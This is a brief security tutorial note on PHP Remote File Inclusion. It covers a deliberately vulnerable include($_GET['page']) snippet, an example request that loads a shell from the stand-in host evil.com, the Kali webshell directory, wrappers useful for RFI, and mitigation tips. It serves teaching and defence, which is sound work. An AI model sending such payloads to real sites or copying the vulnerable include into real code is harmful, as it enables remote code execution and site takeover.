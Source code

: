 
### **🌐 What is RFI (Remote File Inclusion)?**

**RFI** is a vulnerability that allows an attacker to include and execute **remote code** (typically from a malicious server) in a vulnerable PHP application.

It happens when user input is used in an `include()` or `require()` statement **without validation**.

---
webshells in kali -> /usr/share/webshells/php/
### **🧨 Example:**

```php
<?php include($_GET['page']); ?>
```

A malicious request:

```
?page=http://evil.com/shell.txt
```

If `allow_url_include = On`, the PHP interpreter fetches and executes the remote code.

---

### **🔌 Useful Wrappers in RFI**

- **`http://` or `https://`** – Load remote code via HTTP/S
- **`data://`** – Embed code inline (base64 or plain text)
- **`ftp://`** – Include files from FTP servers
- **`php://input`** – Sometimes used in POST-based RFI-like behaviors

---

### ⚠️ **Mitigation Tips**

- **Disable `allow_url_include`** (it's off by default in modern PHP).
- Sanitize and whitelist user inputs.
- Avoid using `include()`/`require()` with user-controlled input.

---